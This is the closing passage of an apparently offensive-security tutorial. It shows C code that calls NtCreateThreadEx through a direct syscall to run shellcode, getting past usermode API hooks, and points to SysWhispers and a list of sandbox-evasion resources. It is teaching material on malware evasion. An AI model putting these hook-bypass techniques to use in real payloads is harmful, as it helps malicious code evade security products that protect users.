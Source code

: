 Then declare external method in the source code:

```c
EXTERN_C NTSTATUS(NTAPI NtCreateThreadEx)
(
	OUT PHANDLE hThread,
	IN ACCESS_MASK DesiredAccess,
	IN PVOID ObjectAttributes,
	IN HANDLE ProcessHandle,
	IN PTHREAD_START_ROUTINE lpStartAddress,
	IN PVOID lpParameter,
	IN ULONG Flags,
	IN SIZE_T StackZeroBits,
	IN SIZE_T SizeOfStackCommit,
	IN SIZE_T SizeOfStackReserve,
	OUT PVOID AttributeList
);
```

Last thing to do is to call the function:

```c
HANDLE hThread;
HANDLE hProcess = GetCurrentProcess();
NtCreateThreadEx(&hThread, GENERIC_ALL, NULL, hProcess, (PTHREAD_START_ROUTINE)shellcode_exec, NULL, FALSE, NULL, NULL, NULL, NULL);
WaitForSingleObject(hThread, INFINITE);
```

That way we have bypassed any hooks on usermode WinAPI thread creation functions. However we have hardcoded the syscall ID (`0xBD`) which is version-specific. To support different Windows versions we would need to have all syscalls IDs and dynamically check system version. That's where [`SysWhispers`](https://github.com/jthuraisamy/SysWhispers/) tool comes in handy. We can use this great tool to generate necessary functions and types definitions in C and OS version checks and syscall definitions in assembly.

## Summary
We went through popular methods for detecting sandboxes, virtual machines and automated analysis used by malware.

In the next article we will take a look at multiple debugger detection methods and talk about how to make debugging of our compiled code harder.

### Links

Be sure to check these great resources on the topic:

[https://github.com/Arvanaghi/CheckPlease](https://github.com/Arvanaghi/CheckPlease)

[https://github.com/LordNoteworthy/al-khaser](https://github.com/LordNoteworthy/al-khaser)

[https://github.com/a0rtega/pafish](https://github.com/a0rtega/pafish)

[https://github.com/CheckPointSW/InviZzzible](https://github.com/CheckPointSW/InviZzzible)

[https://evasions.checkpoint.com/](https://evasions.checkpoint.com/)

